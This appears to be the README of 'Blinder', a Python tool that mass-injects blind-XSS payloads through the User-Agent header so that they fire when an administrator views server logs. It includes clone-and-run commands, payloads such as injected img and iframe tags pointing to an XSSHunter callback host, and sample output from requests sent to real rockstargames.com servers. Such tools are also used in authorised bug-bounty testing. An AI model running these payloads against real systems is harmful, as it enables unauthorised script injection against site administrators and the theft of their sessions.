 # Blinder
- A Tool Written In Python3 For Sending Blind-XSS Payloads On The User-Agent 

## Usage
```
git clone https://www.github.com/DEMON1A/Blinder.git
cd Blinder
python3 Blinder.py username.xss.ht SubDomains.txt
```

## Description
- That's a New Version Of Blinder You Can Use To Automate Sending Payloads Into URLs With a Fast Way. It Basicly Uses The Payload You Provide To Send It On The Value Of The *User-Agent* Header To Inject The Payload Into The Server Logs If The Admin Can View It. In This Case You Should Receive An Alert On Your XSSHunter/Bin. That's Just It.

### Installation
```
git clone https://github.com/DEMON1A/Blinder
cd Blinder
python3 Blinder.py [ARGS]
```

### What's New?
- Threading To Improve The Script Speed.
- Using Your Own External Bin Instead Of Just Using XSSHunter
- Using Your Own Payloads That Could Be Used To Inject Other Payloads For Other Issues
- Been Able To Allow/Disallow Redirects With Requests
- You Can Use Multi Payloads With The Requests And Select The Split Char
- Cleaner Code!

### How To Use:
- For Basic Usage With a Basic Payload You Can Just The Script Using This:

```
python3 Blinder.py -f URLs.txt -u hacker -r allow
```

- The Script Can't Run Without Getting The Redirection Rule. You Can Select Between `allow` and `deny` That Chooses If The Redirections Will Be Followed In This Case Or Not.

- To Add Your Own Payload You Have To Use `XXX` On Your Payload So It Could Be Replaced With The XSSHunter/ExternalBin. For Example If You Want To Create Your Own Payload It Will Look Like This:

```
python3 Blinder.py -f URLs.txt -u hacker -r allow -p '"><img src="XXX">'
```

- Make Sure The `XXX` In This Case Are Able In a Upper Case.

- To Use Your Own ExternalBin Instead Of XSSHunter You Have To Use `-b` Option. With Your External Host Including The Protocol. For Example

```
python3 Blinder.py -f URLs.txt -b https://www.example.com/ -r allow -p '"><img src="XXX">'
```

- If You Didn't Add a Payload In Any Cases, Blinder Will Auto Set The Default XSSHunter XSS Payload To Use It.

- You Can Use Multi Payloads With The Requests By Adding a Split Char Between Them You Can Select. If You Didn't Add The Split Char The Program Will Auto Set It Into `,` In This Case. To Use Multi Payloads It Will Look Like This

```
python3 Blinder.py -f URLs.txt -u hacker -r allow -p '"><img src="XXX">','"><iframe src="XXX">' -s ,
```
- The Output Will Be Something Like That In This Case.

```
Request Has Been Sent To: https://scapi.rockstargames.com, Status-Code: 403 , Payload: "><img src="https://hacker.xss.ht/">
Request Has Been Sent To: https://scapi.rockstargames.com, Status-Code: 403 , Payload: "><iframe src="https://hacker.xss.ht/">
Request Has Been Sent To: http://scapi.rockstargames.com, Status-Code: 301 , Payload: "><img src="https://hacker.xss.ht/">
Request Has Been Sent To: http://scapi.rockstargames.com, Status-Code: 301 , Payload: "><iframe src="https://hacker.xss.ht/">
Request Has Been Sent To: https://prod.p01ewr.pod.rockstargames.com, Status-Code: 200 , Payload: "><img src="https://hacker.xss.ht/">
Request Has Been Sent To: https://prod.p01ewr.pod.rockstargames.com, Status-Code: 200 , Payload: "><iframe src="https://hacker.xss.ht/">
Request Has Been Sent To: https://prod.p02sjc.pod.rockstargames.com, Status-Code: 200 , Payload: "><img src="https://hacker.xss.ht/">
Request Has Been Sent To: https://prod.p02sjc.pod.rockstargames.com, Status-Code: 200 , Payload: "><iframe src="https://hacker.xss.ht/">
Request Has Been Sent To: https://prod.p02ewr.pod.rockstargames.com, Status-Code: 200 , Payload: "><img src="https://hacker.xss.ht/">
Request Has Been Sent To: https://prod.p02ewr.pod.rockstargames.com, Status-Code: 200 , Payload: "><iframe src="https://hacker.xss.ht/">
Request Has Been Sent To: https://warehouse.rockstargames.com, Status-Code: 302 , Payload: "><img src="https://hacker.xss.ht/">
Request Has Been Sent To: https://warehouse.rockstargames.com, Status-Code: 302 , Payload: "><iframe src="https://hacker.xss.ht/">
Request Has Been Sent To: https://prod.p01sjc.pod.rockstargames.com, Status-Code: 200 , Payload: "><img src="https://hacker.xss.ht/">
Request Has Been Sent To: https://prod.p01sjc.pod.rockstargames.com, Status-Code: 200 , Payload: "><iframe src="https://hacker.xss.ht/">
```

### Something Isn't Working Or You Want To Improve Something?
- Then Please Open an Issue With It Or You Can Fork The Project Then Create a Pull Request.
